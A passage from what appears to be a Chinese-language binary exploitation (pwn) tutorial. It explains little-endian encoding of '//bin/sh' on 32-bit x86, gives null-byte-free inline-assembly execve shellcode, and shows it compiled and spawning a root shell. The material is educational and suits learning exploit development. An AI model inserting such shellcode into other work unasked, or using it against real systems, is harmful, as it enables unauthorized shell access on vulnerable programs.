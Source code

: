 关于字符串为什么是那一串倒着的十六进制ASCII码，

首先32位系统一次只能向栈上push 4个字节的数据，所以是一次push四个字符。

又因为这个程序在开头的checksec中发现是`i386-32-little`，即**小端序**，所以计算机读取数据从高地址处开始读，同时向栈上存储数据是向高地址增长的，所以需要把字符串数据倒着的形式压入栈中。（readelf -h 同样可以查看字节序）

另外你会发现我在前面多加了一个斜线`/`，是因为要保证一次有四个字节。如果不是四个字节的话编译器会自动补充\x00，从而导致机器码中有\x00。在一些str操作函数中，比如strcpy，遇到\x00会停止继续读取。

同时在linux里，路径最前面无论有多少个斜线，最终只会当成一个斜线。

所以//bin/sh还是等效于/bin/sh

```python
>>> for i in '//bin/sh'[::-1]:
...     print("%x"%ord(i), end="")
... 
68732f6e69622f2f>>>
```



接下来是获取shellcode

```c
//shellcode.c
int main()
{
    __asm__("xor eax, eax\n\t"
            "push eax\n\t"
            "push 0x68732f6e\n\t"
            "push 0x69622f2f\n\t"
            "mov ebx, esp\n\t"
            "push eax\n\t"
            "mov ecx, esp\n\t"
            "mov edx, esp\n\t"
            "mov al, 11\n\t"
            "int 0x80"
           );
    return 0;
}
```

gcc编译

（64位系统会提示缺32位的东西，需要安装32位的支持库`sudo apt-get install gcc-multilib`）

```shell
$ gcc -m32 -masm=intel shellcode.c
```

-m32指定编译32位程序，-masm=intel指定内联汇编格式为intel风格

运行一下编译出来的程序，运行正常，达到预期目的

```shell
root@kali:~# ./a.out 
# whoami
root
# exit
```
